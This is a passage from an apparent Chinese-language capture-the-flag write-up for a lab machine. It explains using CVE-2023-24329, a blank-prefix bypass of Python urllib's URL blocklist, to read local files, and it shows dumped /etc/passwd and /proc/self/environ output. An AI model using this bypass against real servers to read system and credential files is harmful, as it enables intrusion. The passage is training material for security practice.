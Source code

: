 ``` http://report.comprezzor.htb/ ```
除了得知後台是python伺服器以外
去查查看這個版本的urllib有啥漏洞
[CVE-2023–24329](https://vsociety.medium.com/cve-2023-24329-bypassing-url-blackslisting-using-blank-in-python-urllib-library-ee438679351d)
簡單來講就是在URI前面加一個空格件就能繞過安全性檢查
就能使用這個LFI漏洞
所以接下來就可以用這個漏洞來enumeration本地資料

![圖片](https://hackmd.io/_uploads/Syw8QrPNC.png)

/etc/passwd
>使用者枚舉

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
avahi:x:105:110:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
geoclue:x:106:111::/var/lib/geoclue:/usr/sbin/nologin
```
/proc/self/environ
>環境變數枚舉

```
HOSTNAME=web.localPYTHON_PIP_VERSION=22.3.1HOME=/rootGPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696DPYTHON_GET_PIP_URL=https://github.com/pypa/get-
pip/raw/d5cb0afaf23b8520f1bbcfed521017b4a95f5c01/public/get-pip.pyPATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binLANG=C.UTF-
8PYTHON_VERSION=3.11.2PYTHON_SETUPTOOLS_VERSION=65.5.1PWD=/appPYTHON_GET_PIP_SHA256=394be00f13fa1b9aaa47e911bdb59a09c3b2986472130f30aa0bfaf7f3980637
```
/proc/self/cmdline
>這個python執行路徑和檔案名稱的枚舉

```
python3/app/code/app.py
```

透過上面剛剛那些枚舉沒得到太多有用的資訊
不過倒是能透過這個程式看能不能找到更有用的訊息

app.py

```=python
```